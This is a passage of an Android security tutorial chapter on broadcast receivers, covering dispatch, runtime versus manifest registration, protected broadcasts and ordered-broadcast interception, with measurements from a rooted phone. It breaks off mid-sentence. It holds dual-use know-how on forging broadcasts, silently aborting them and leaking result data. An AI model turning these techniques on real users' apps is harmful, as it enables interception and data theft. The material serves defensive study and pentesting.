








# 29 — Broadcast Receivers

> After this chapter you can enumerate every receiver on a device — including the ones no
> manifest contains — tell a forgeable action from an unforgeable one *on that device*, and
> demonstrate an exploitable broadcast bug end to end instead of reporting an exported
> component and hoping.

**Prerequisites:** [24-IPC](../24-IPC/README.md), [25-Binder](../25-Binder/README.md),
[26-Intent](../26-Intent/README.md), [23-Permissions](../23-Permissions/README.md)

**Useful alongside:** [32-Manifest](../32-Manifest/README.md) — the declaration side. This chapter
explains `android:exported`, `RECEIVER_EXPORTED` and `<intent-filter>` at the point of use, and the
receivers that matter most here are the runtime-registered ones no manifest contains at all.

**Applies to:** Android 4.x through 15 (API 14–35). Behaviour differs sharply at
**API 26** (implicit-broadcast and background-execution limits) and **API 33**
(`RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED` became mandatory). Every measured figure
below was taken on a **Redmi `M2101K6P` (`sweetin`), MIUI 12.5, Android 11 / API 30**,
rooted with Magisk, with `frida-server` 16.1.6. Measurements are labelled; everything else
is documented behaviour, and the two are never blurred.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### 1.1 The problem that existed before broadcasts

An application on a phone needs to know about things it did not cause.

The battery got low. The user unlocked the screen. A new app was installed. Wi-Fi
disconnected. The clock ticked over midnight. The device finished booting. Somebody
plugged in headphones.

None of these events happen *inside* your app. Your app is not running when most of them
occur. Your app has no privilege to watch the battery, the modem or the display driver.
And yet an alarm clock that does not know the device rebooted is a broken alarm clock, and
a music player that keeps blasting into a room after the headphones are unplugged is a
lawsuit waiting to happen.

Before a mechanism like this existed, an application had exactly two ways to learn about
the world:

**Polling.** Wake up every few seconds and ask. This is what desktop software did for
decades and it is catastrophic on a battery-powered device: a hundred apps each waking the
CPU out of deep sleep every ten seconds is a phone that lasts four hours.

**Privileged access.** Let the app talk to the hardware directly. This is what feature
phones did, and it means every app can read the modem, watch the screen and see the
battery — which is to say there is no sandbox and no privacy.

Android needed a third option: a way for one component to *announce* that something
happened, and for any number of unrelated components to *hear* it, without either side
knowing the other exists, without the listeners running all the time, and without granting
anybody access to the hardware that produced the event.

That mechanism is the **broadcast**.

> **📖 Definition**
> A **broadcast** is an [Intent](../26-Intent/README.md) delivered to *every* component
> that has said it is interested, rather than to one chosen component. A
> **BroadcastReceiver** is the object that receives one. The delivery is performed by
> **ActivityManagerService** (AMS), a service inside the `system_server` process, which
> keeps the list of who is interested and decides who is allowed to send what.

### 1.2 The airport analogy, and where it breaks

A broadcast is a public address announcement in an airport terminal.

Somebody at a microphone says "flight BA117 is now boarding at gate 42". They do not know
who is in the terminal. They do not know who is listening. Anyone who cares acts on it;
everyone else ignores it. The announcer needs no relationship with any passenger, and no
passenger needs to have been watching a departure board at that exact moment.

That analogy gets you the shape. Now here is where it breaks, and the breaks are the
security content of this chapter:

**Break 1 — anyone can walk up to the microphone.** In an airport, the PA system is behind
a locked door. On Android, `sendBroadcast()` is a public method on `Context` that any app
can call with any action string. There is no default authentication of the announcer. The
platform reserves a *specific list* of announcements for itself — those are **protected
broadcasts**, and section 3.4 measures which ones — but everything outside that list is
open to anyone.

**Break 2 — listeners cannot tell who spoke.** A passenger hears an announcement and
recognises the voice as airport staff. A `BroadcastReceiver` gets no such cue. By the time
`onReceive()` runs, the sender's identity is gone: the broadcast was re-dispatched by
`system_server`, so the only Binder identity visible is the system's. Section 3.9
demonstrates this with a measurement rather than asserting it.

**Break 3 — some announcements are made one passenger at a time, and each can silence the
rest.** That is an **ordered broadcast** (section 3.6), and it is the single most useful
offensive primitive in this chapter: a receiver with a higher priority than yours is
handed the message first and can call `abortBroadcast()`, after which you never hear it
and are never told.

**Break 4 — the last announcement can be left playing on a loop for anyone who walks in
later.** That is a **sticky broadcast** (section 3.7), deprecated since API 21 for exactly
the reason you would expect.

**Break 5 — some listeners are wearing a badge you cannot see.** A receiver declared in a
manifest is on the airport's public roster. A receiver created by `registerReceiver()` at
runtime is not on any roster at all. It exists only in AMS's memory. This is the gap that
makes the rest of this chapter necessary, and it is not small: **on a stock Android 11
device, 299 of the 431 distinct broadcast actions that third-party apps were listening for
had no manifest-declared receiver anywhere on the device.** Every static analysis tool
ever written would report those 299 as having no listeners.

### 1.3 What would break if broadcasts did not exist

Remove the mechanism and consider what stops working:

- **Nothing reacts to boot.** No alarm app rearms its alarms, no VPN reconnects, no
  device-management agent re-enrols. `ACTION_BOOT_COMPLETED` is a broadcast.
- **Nothing reacts to connectivity.** Every app that syncs when Wi-Fi returns has to poll.
- **No app can tell another app anything without a direct connection.** Broadcasts are the
  only Android IPC primitive that is *one-to-many* and *anonymous in both directions*.
  Every other mechanism — [Binder](../25-Binder/README.md),
  [ContentProviders](../27-ContentProviders/README.md), Services — requires the caller to
  name a specific target.
- **SMS, calls, NFC taps, USB attachment, media scanning and app installation have no
  notification path.** Every one of these is delivered to apps as a broadcast.
- **Notification action buttons stop working.** Tapping "Snooze" fires a
  `PendingIntent.getBroadcast()`.

The mechanism is not optional and it is not niche. On the measured device, AMS was holding
**1,281 live runtime registrations covering 1,438 filters and 2,868 action strings**, at an
idle moment, with no user interaction.

### 1.4 The two directions, and why both matter

Readers usually meet broadcasts in one direction only — the system telling apps things —
and that half is well documented. The other half is where the bugs live.

| Direction | Sender | Receiver | Who can forge the sender? |
|---|---|---|---|
| **System to app** | `system_server`, `com.android.phone`, other platform uids | Any app that registered | Nobody, *if* the action is a `<protected-broadcast>`. Section 3.4. |
| **App to itself** | The app | The same app | Anybody, unless the app used `setPackage()`, a signature permission, `RECEIVER_NOT_EXPORTED`, or `LocalBroadcastManager`. |
| **App to another app** | Any app | Any app | Anybody. There is no authentication in the mechanism at all. |
| **App to the system** | Any app | A platform component | Blocked for protected actions; otherwise open. |

The second row is where most real findings come from. A developer sends a broadcast
intending it for their own app, forgets to constrain it, and every app on the device
receives the message and its extras. Or a developer registers a receiver intending it for
their own app's messages, forgets to constrain it, and every app on the device can drive
it.

### 1.5 What this chapter owns, and what it does not

This repository splits the component surface across several chapters on purpose. Getting
the boundary right saves you reading the same thing three times.

| Topic | Chapter | Why there and not here |
|---|---|---|
| What an `Intent` **is** — its twelve fields, explicit versus implicit, `IntentFilter.match()`, the resolution algorithm, redirection, `PendingIntent` | [26-Intent](../26-Intent/README.md) | Broadcast *resolution* is the same algorithm as activity resolution. It is documented once, there. This chapter cites it and does not restage it. |
| Auditing an `AndroidManifest.xml` — export defaults by `targetSdk`, `protectionLevel` resolution, the three-way decoder comparison, severity rating of a declaration | [32-Manifest](../32-Manifest/README.md) | That is the *declaration* audit. This chapter's contribution is precisely what a manifest **cannot** show. No second manifest scanner ships here. |
| Enumerating the whole IPC surface, sockets, the confused-deputy pattern | [24-IPC](../24-IPC/README.md) | Surface enumeration across all mechanisms. |
| The Binder transport itself, parcels, caller identity stamping | [25-Binder](../25-Binder/README.md) | Broadcasts ride on Binder; the transport is documented there. |
| Services, `startService`, bound services, foreground service types | 28-Services | Broadcasts frequently *start* services; that is 28's side of the fence. |
| Activities, task affinity, launch modes | 30-Activities | — |

**What is left, and what this chapter owns end to end:**

1. **Broadcast dispatch** — the queues, the two of them, their timeouts, and the order.
2. **Registration** — the static path, the runtime path, and the visibility gap between them.
3. **Protection** — protected broadcasts, sender permissions, receiver permissions, export flags.
4. **Ordering** — priority, `abortBroadcast()`, result passing: the interception primitive.
5. **Sticky broadcasts** — what they were and why they are gone.
6. **Finding runtime receivers on a live device**, which nothing else in this repository does.

> **🧠 Mental Model**
> An Activity is a door with a doorbell. A ContentProvider is a filing cabinet with a
> librarian. A Service is a workshop you hire. A **BroadcastReceiver is a tannoy speaker
> bolted to the wall of your app** — and the microphone it is wired to is in a public
> corridor. Your only controls are which announcements the speaker responds to, and
> whether you check the announcement before acting on it.

---

## 2. High-Level Architecture

### 2.1 The whole path, in one picture



Read it as three processes and two Binder hops, with a policy decision in the middle.

The sender is an ordinary app. It calls `sendBroadcast()`, which is a plain method on
`Context`; there is no permission required to *call* it. That call becomes a Binder
transaction into `system_server`, which is the trust boundary — everything above the
`system_server` box is attacker-controlled, everything inside it is not.

Inside `system_server`, `ActivityManagerService` makes the first and most important
decision: **is this action one that only the system may send?** If it is, and the caller
is not the system, the call fails with a `SecurityException` *before any receiver is
consulted*. This is the check that makes `BOOT_COMPLETED` unforgeable, and section 3.4
measures exactly which actions it covers on a real device.

If the action is not protected, AMS assembles the recipient list from two entirely
separate sources — its own in-memory table of runtime registrations, and
PackageManagerService's parsed manifest declarations — and hands the result to a
`BroadcastQueue`. The queue is where "ordered" starts to matter: an unordered broadcast is
dispatched to everyone at once, an ordered one is dispatched to one receiver at a time in
priority order.

Delivery back out is a second Binder transaction into each receiving process. It lands on
a Binder thread, is posted to that process's main `Looper`, and `onReceive()` finally runs
on the main thread — with a hard time budget, which section 3.5 measures.

Note what is *not* on this diagram: any path by which the receiver learns who the sender
was. There isn't one.

### 2.2 The two registration paths — the visibility gap



This diagram is the reason the chapter exists, so read it slowly.

The **left column** is the world every Android security tool already handles. A receiver
declared in `AndroidManifest.xml` is a static fact about the APK. `apktool` can decode it,
`aapt2` can dump it, `jadx` shows it, MobSF tabulates it, and every commercial scanner
lists it. `PackageManagerService` parses it once at install and stores it in the resolver
tables that `dumpsys package` prints.

The **right column** is a receiver created by running code: `registerReceiver(receiver,
filter)`. It is not in the manifest, because it does not exist until the app runs. It is
not in `PackageManagerService`, because PackageManager only knows about declarations. It
is not in the resolver tables, so `cmd package query-receivers` reports nothing. It leaves
**no trace anywhere in the APK** except the bytecode of the call itself, which obfuscation
and reflection can hide.

It exists in exactly one place: an in-memory table inside `ActivityManagerService`, holding
one `ReceiverList` per registering process and one `BroadcastFilter` per registered filter.
The only reader of that table is `dumpsys activity broadcasts`.

Both columns converge at dispatch time. AMS consults *both* — its own table and
PackageManager — which is why a runtime receiver is every bit as reachable as a manifest
one, and in one important respect more so: below API 33 a runtime receiver has **no export
flag at all**. It is reachable by any sender unless the app supplied a permission.

> **🔍 Pentester's Note**
> When a report says "the application declares three broadcast receivers", ask how that
> number was obtained. If the answer is "from the manifest", the number is a lower bound
> and possibly a badly wrong one. On the measured device, one preinstalled calculator app
> declared its runtime receiver from an *anonymous inner class* inside its `Application`
> subclass — `com.miui.calculator.CalculatorApplication$1`. No manifest mentions it, and a
> tool that greps for classes extending `BroadcastReceiver` by name will not find it either.

### 2.3 The trust boundary, drawn explicitly



Four checks sit between an attacker app and a victim's `onReceive()`, and it is worth
knowing which of them you can expect to be present in the wild.

**Check 1, the protected-broadcast test**, is the strongest and the one you least often get
to bypass. It is enforced by the platform, needs no cooperation from the app, and cannot be
disabled. It applies only to actions declared `<protected-broadcast>` by a system package,
which is a specific finite list.

**Check 2, `receiverPermission`**, is supplied by the *sender* — `sendBroadcast(intent,
"com.example.PERM")`. It restricts who may *receive*. Attackers rarely have to deal with
this because it only constrains the victim's own outbound messages; it is what stops you
*eavesdropping*, not what stops you *forging*.

**Check 3, the receiver's own permission** — `android:permission` on a `<receiver>`, or the
`broadcastPermission` argument to `registerReceiver` — is the one developers reach for. It
works, *if the permission's `protectionLevel` is `signature`*. If it is `normal`, an
attacker adds one `<uses-permission>` line and is through. See
[23-Permissions](../23-Permissions/README.md) for how to resolve a level, and
[32-Manifest](../32-Manifest/README.md) for the audit.

**Check 4** is a collection of newer filters — app ops, instant-app visibility, package
visibility from API 30 — which shape *what you can see* more than *what you can send*.

On the measured device, of 1,438 live runtime filters, **1,227 had no sender permission at
all**. Checks 2 and 3 are the exception in practice, not the rule.

### 2.4 What actually happens on the wire, in order



Six things on this diagram are worth stopping on.

**Step 2** is where the kernel stamps the sender's uid into the transaction. The sender
cannot lie about it — [25-Binder](../25-Binder/README.md) demonstrates this by trying and
failing. So AMS's view of *who called* is trustworthy.

**Steps 3 and 4** are the protected-broadcast check. Note it happens *first*, before any
receiver lookup. A protected action is refused whether or not anyone is listening.

**Steps 6 and 7** are the recipient assembly, and it is *two* lookups from two different
data structures. This is the mechanical reason the runtime surface and the static surface
are separate: they live in different places and are queried separately.

**Step 10** is the crucial one for anyone trying to attribute a broadcast. The delivery
transaction is sent *by system_server*. The attacker's uid is not in it. Whatever the
receiver asks Binder at this point, the answer is 1000.

**Step 12** is the Handler hop. `onReceive` does not run on the Binder thread; it is posted
to the main `Looper`. This is why `goAsync()` exists and why blocking in `onReceive` freezes
the UI.

**Step 13** is the deadline. Section 3.5 has the measured numbers.

### 2.5 The life of one broadcast, as a state machine



Five states on this diagram carry security weight.

**Refused** is thrown *in the sender's process*. That is why a forge attempt is visible to
you as an attacker — you get a stack trace — and section 3.4 turns that into a probing
technique.

**Aborted** ends the chain. Nothing downstream is told. A receiver that stops firing after
a competitor app is installed has been silently intercepted, and the only way to see it is
the priority ordering.

**ResultCarried** is the return channel. Whatever a receiver puts in `setResultData()`
travels onward and eventually reaches the *sender*'s result receiver. If the sender is
hostile, that is an exfiltration path out of the victim.

**ResultToSender** is the step people forget: the final result of an ordered broadcast is
delivered into the sender's own process, running the sender's own code.

**Retained** is the sticky state, and the loop back from **Replayed** is the whole problem
with sticky broadcasts: the value is handed out again and again, for as long as the device
is up, to anybody who asks.

---

## 3. Deep Internal Working

### 3.1 What, precisely, a BroadcastReceiver is

> **📖 Definition**
> `android.content.BroadcastReceiver` is an abstract class with one method you must
> implement: `void onReceive(Context context, Intent intent)`. An instance of it is
> **not** a process, **not** a thread, and **not** long-lived. It is an object that the
> framework calls on the main thread, once per matching broadcast, and then considers
> finished.

Three consequences follow immediately and each one is a source of bugs.

**A receiver has no lifetime beyond `onReceive`.** The moment `onReceive` returns, the
framework considers the object done. Starting a thread in `onReceive` and returning is a
recipe for a thread whose process is killed underneath it. `goAsync()` (section 3.11) is
the sanctioned way to extend the window, and it extends it by seconds, not minutes.

**A receiver runs on the main thread.** Not a background thread. Blocking `onReceive`
blocks the UI, and past a timeout the platform kills the app with an ANR.

**A manifest-declared receiver can start a process that was not running.** This is what
makes static receivers qualitatively more dangerous than runtime ones: a broadcast can
wake an app that the user has never opened since boot. A runtime receiver, by contrast,
only exists while its process does — which is a security property, and it is why the API
26 restrictions targeted manifest receivers specifically.

### 3.2 The two ways to register, in full

#### Path A — the manifest declaration ("static" receiver)

```xml
<!-- AndroidManifest.xml -->
<receiver
    android:name=".ConfigSyncReceiver"
    android:exported="true"
    android:permission="com.example.PERM_SENDER_MUST_HOLD"
    android:enabled="true"
    android:directBootAware="false"
    android:process=":sync">
    <intent-filter android:priority="500">
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="com.example.ACTION_SYNC" />
    </intent-filter>
</receiver>
```

| Attribute | Default | What it means for you |
|---|---|---|
| `android:name` | required | The class. A leading `.` means "relative to the package". |
| `android:exported` | `true` if an `<intent-filter>` is present, else `false`. **From API 31 it must be stated explicitly** when a filter is present, or the app will not install. | Whether another app may reach it. The implicit default is the classic accident. |
| `android:permission` | inherits `<application android:permission>` | The permission **the sender** must hold. Worthless unless its `protectionLevel` is `signature`. |
| `android:enabled` | `true` | The app can flip this at runtime with `setComponentEnabledSetting`, so the manifest value is not the final word. |
| `android:directBootAware` | `false` | If `true`, the receiver can run before first unlock — when credential-encrypted storage is unavailable. A receiver that reads user data here reads nothing and may "helpfully" write defaults. |
| `android:process` | the app's process | `:name` gives it a private process; a bare name can share one with another app of the same uid. |
| `<intent-filter android:priority>` | `0` | **Ordered broadcasts only.** Higher goes first. Values above 1000 are documented as reserved for the system. |

#### Path B — the runtime registration ("context-registered" receiver)

```java
// Java, anywhere with a Context
IntentFilter filter = new IntentFilter("com.example.ACTION_SYNC");
filter.setPriority(500);
registerReceiver(myReceiver, filter);
```

There is no manifest entry, no `<intent-filter>` element and no `exported` attribute
below API 33. There is nothing in the APK naming this as a receiver except the
`registerReceiver` call itself.

Every overload, and what each buys you:

| Overload | Since | Export state below API 33 | Export state API 33+ |
|---|---|---|---|
| `registerReceiver(r, filter)` | 1 | **Exported.** Any app may send. | Throws for a `targetSdk 33+` app on a non-system action. |
| `registerReceiver(r, filter, flags)` | 26 | Flags ignored for export purposes; still exported. | `RECEIVER_EXPORTED` (0x2) or `RECEIVER_NOT_EXPORTED` (0x4) required. |
| `registerReceiver(r, filter, broadcastPermission, scheduler)` | 1 | Guarded: sender must hold `broadcastPermission`. | Same, plus the flag requirement. |
| `registerReceiver(r, filter, broadcastPermission, scheduler, flags)` | 26 | Guarded. | Guarded plus explicit export state. |

> **⚠️ Warning**
> `RECEIVER_EXPORTED` and `RECEIVER_NOT_EXPORTED` were added in **API 33** and did not
> exist before. On the measured device (API 30) they are simply absent from the platform.
> Do **not** report "the app failed to pass `RECEIVER_NOT_EXPORTED`" against an app whose
> `targetSdk` is below 33 as though it were a missing mitigation — the flag was not
> available to it. What you *can* say is that the receiver is reachable by any app, which
> is true and is the actual finding.

#### The AndroidX backport, and how to spot it

`ContextCompat.registerReceiver(context, receiver, filter,
ContextCompat.RECEIVER_NOT_EXPORTED)` has to do something on a device where the flag does
not exist. What it does is invent a permission: it registers with a self-defined
signature-level permission named
`<package>.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION`. Only the app itself holds it, so
